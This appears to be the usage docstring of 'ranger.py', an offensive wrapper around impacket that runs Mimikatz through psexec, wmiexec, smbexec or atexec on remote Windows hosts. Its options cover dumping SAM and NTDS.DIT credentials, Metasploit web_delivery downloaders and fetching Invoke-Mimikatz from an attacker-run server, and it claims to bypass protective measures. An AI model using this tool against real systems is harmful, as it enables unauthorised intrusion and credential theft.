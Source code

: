 '''
usage:
Command Shell:
    ranger.py [-i IP] [--user Administrator] [--pwd Password1] [-t target] --smbexec -q -v -vv -vvv
Attack Directly:
    ranger.py [-i IP] [--user Administrator] [--pwd Password1] [-t target] --wmiexec --invoker -q -v -vv -vvv
Create Pasteable Double Encoded Script:
    ranger.py --invoker -q -v -vv -vvv

A wrapping and execution tool for a some of the most useful impacket tools

optional arguments:
  -h, --help            show this help message and exit
  -v                    Verbosity level, defaults to one, this outputs each
                        command and result
  -q                    Sets the results to be quiet
  --version             show program's version number and exit

Method:
  --psexec              Inject the invoker process into the system memory with
                        psexec
  --wmiexec             Inject the invoker process into the system memory with
                        wmiexec
  --smbexec             Inject the invoker process into the system memory with
                        smbexec
  --atexec              Inject the command task into the system memory with at
                        on systems older than Vista

Attack:
  --invoker             Configures the command to use Mimikatz invoker
  --downloader          Configures the command to use Metasploit's
                        exploit/multi/script/web_delivery
  --secrets_dump        Execute a SAM table dump
  --command COMMAND     Set the command that will be executed, default is
                        cmd.exe
  --group-members GROUP
                        Identifies members of Domain Groups through PowerShell

SAM and NTDS.DIT Options, used with --sam_dump:
  --system SYSTEM       The SYSTEM hive to parse
  --security SECURITY   The SECURITY hive to parse
  --sam SAM             The SAM hive to parse
  --ntds NTDS           The NTDS.DIT file to parse

PowerShell IEX Options:
  -i SRC_IP             Set the IP address of the Mimkatz server, defaults to
                        eth0 IP
  -n INTERFACE          Instead of setting the IP you can extract it by
                        interface, default eth0
  -p SRC_PORT           Set the port the Mimikatz server is on, defaults to
                        port 8000
  -x PAYLOAD            The name of the Mimikatz file, the default is Invoke-
                        Mimikatz.ps1
  -a MIM_ARG            Allows you to change the argument name if the Mimikatz
                        script was changed, defaults to DumpCreds
  -f MIM_FUNC           Allows you to change the function name if the Mimikatz
                        script was changed, defaults to Invoke-Mimikatz

Remote Target Options:
  -t TARGET             The system you are attempting to exploit
  --domain DOM          The domain the user is apart of, defaults to WORKGROUP
  --user USR            The username that will be used to exploit the system
  --pwd PWD             The password that will be used to exploit the system
  --aes AES_KEY         The AES Key Option
  --kerberos KERBEROS   The Kerberos option
  --share SHARE         The Share to execute against, the default is ADMIN$
  --mode {SHARE,SERVER}
                        Mode to use for --smbexec, default is SERVER, which
                        requires root access, SHARE does not
  --protocol {445/SMB,139/SMB}
                        The protocol to attack over, the default is 445/SMB
  --directory DIRECTORY
                        The directory to either drop the payload or
                        instantiate the session

Filename for randimization of script:
  --filename FILENAME   The file that the attack script will be dumped to

This script oombines specific attacks with dynmaic methods, which allow you to
bypass many protective measures.
'''
